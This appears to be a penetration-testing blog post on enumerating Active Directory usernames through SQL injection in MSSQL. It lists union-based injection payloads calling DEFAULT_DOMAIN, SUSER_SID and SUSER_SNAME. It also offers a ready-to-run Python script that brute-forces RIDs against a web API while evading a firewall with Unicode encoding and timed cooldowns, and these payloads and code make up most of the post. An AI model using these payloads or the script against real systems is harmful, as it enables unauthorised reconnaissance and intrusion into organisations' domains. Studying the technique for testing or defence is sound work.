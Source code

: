 [back](/)

### Username enumeration via SQL injection

Each account or group in the Active Directory has its own security identifier or (SID), which also includes a relative identifier (RID).

What are they needed for ? Windows operating system differentiates the rights in the Active Directory domain of a particular user, thanks to these identifiers, this is extremely important.

![Image](/img/username_enum-from-sqli/3.png)

Imagine that you are migrating from one domain to another, for example from **source.local** to **destination.local**, then the user's SID and RID will be changed. How exactly to preserve the rights of the user who is associated with security groups and a specific SID/RID ?

Naturally it will be changed during domain migration. The fact is that the access token is generated based on all previously created identifiers, including those that were previously assigned to the user. This is how the user's access token to objects is formed.

The SID/RID consists of several components shown in the diagram:

![Image](/img/username_enum-from-sqli/5.jpg)

To find out the SID in a specific domain it is enough to execute the DEFAULT_DOMAIN () MSSQL query, and than using the resulting identifier mask, you can enumerate usernames. Given this access model there is an interesting opportunity for an attacker who found an injection in the MSSQL database.

```
123' union select 1,2,3,4, DEFAULT_DOMAIN() as mydomain -- 1
```

![Image](/img/username_enum-from-sqli/11.png)

Using the SUSER_SID and SUSER_SNAME queries, it is possible to enumerate usernames in the domain:

```
123' union select 1,2,3,4,(select (select stuff(upper(sys.fn_varbintohexstr((SELECT SUSER_SID('YOURDOMAIN\Domain Admins')))), 1, 2, ''))) -- 1
123' union select 1,2,3,4,SUSER_SNAME(0x0105000000000005150000001C00D1BCD181F1492BDFC236F4010000) -- 1
```

![Image](/img/username_enum-from-sqli/6.png)

![Image](/img/username_enum-from-sqli/7.png)

Knowing the structure of the SID and the process of generating RID, you can select 8 bytes related to RID and get a list of usernames in the AD. I wrote a small script to help you to do this. It contains WAF bypass elements associated with the waiting time. It also converts each payload character to Unicode, which indicates a non-standard injection:

```
#!/usr/bin/python3

import requests
import time
from requests.exceptions import HTTPError
from termcolor import colored

def convert_to_unicode(char):
 code = hex(ord(str(char)))[2:]
 prefix = "0" * (4 - len(code))
 return f'\\u{prefix}{code}'

def sqli_post(rid):
 val = "123' union select 1,2,3,4,SUSER_SNAME(0x0105000000000005150000001C00D1BCD181F1492BDFC236"+r+") -- 1"
 res = ""
 for el in val:
  res += convert_to_unicode(el)
 response = requests.post(url, data='{"name":"'+res+'"}', headers = {"Content-Type":"application/json;charset=utf-8"})
 if "403 - Forbidden: Access is denied." in response.text:
  print(colored("[-] Sleeping and WAF cooldown", "red"))
  time.sleep(60)
 if "\\" in response.text:   
  print(colored("[+]"+response.text+"\r\nRID: "+r,"green"))

for url in ['http://10.10.10.10/api/getSOMETHING']:
 try:
  for i in range(500,4000):
   q = hex(i)[2:]
   w = q[1:]
   e = w+"0"+q[:1]
   r = e+"0"*(8-len(e))
   sqli_post(r)

  for i in range(6001,6010):
   q = hex(i)[2:]
   w = q[2:]
   e = q[:2]
   r = w+e+"0"*(8-len(q))
   sqli_post(r)

 except HTTPError as http_err:
  print(f'HTTP error occurred: {http_err}')
 except Exception as err:
  print(f'Other error occurred: {err}')
 else:
  
  print('Success!\r\n')
```

The result will please you =)

![Image](/img/username_enum-from-sqli/12.png)

![Image](/img/username_enum-from-sqli/2.png)

To get a positive enumeration result, start with a sequential enumeration using these queries:

```
123' union select 1,2,3,4,5 -- 1
123' union select 1,2,3,4,@@version -- 1
123' union select 1,2,3,4, DEFAULT_DOMAIN() as mydomain -- 1
123' union select 1,2,3,4,(select (select stuff(upper(sys.fn_varbintohexstr((SELECT SUSER_SID('YOURDOMAIN\Domain Admins')))), 1, 2, ''))) -- 1
```

For detailed information about the RID pool, you can use the following command:

```
dcdiag / test: ridmanager / v
```

![Image](/img/username_enum-from-sqli/9.png)

It will show the current status of the RID pool, the maximum possible pool, and the next RID that will be assigned to the domain user.

This method is especially effective if you do not have access to the remote call procedure through the **rpcclient** as well as a valid account in the domain:

![Image](/img/username_enum-from-sqli/10.png)

These articles will help you explore the issue in more detail:

[enumerating-domain-accounts](https://blog.netspi.com/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/)

[how-to-check-the-rid-pool-in-active-directory](https://www.windowstechno.com/how-to-check-the-rid-pool-in-active-directory/)

[varbinary-to-literal-varchar-copy-in-sql-server-2005](https://stackoverflow.com/questions/6424328/varbinary-to-literal-varchar-copy-in-sql-server-2005)

[security-identifiers](https://docs.microsoft.com/ru-ru/windows/security/identity-protection/access-control/security-identifiers)

<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)



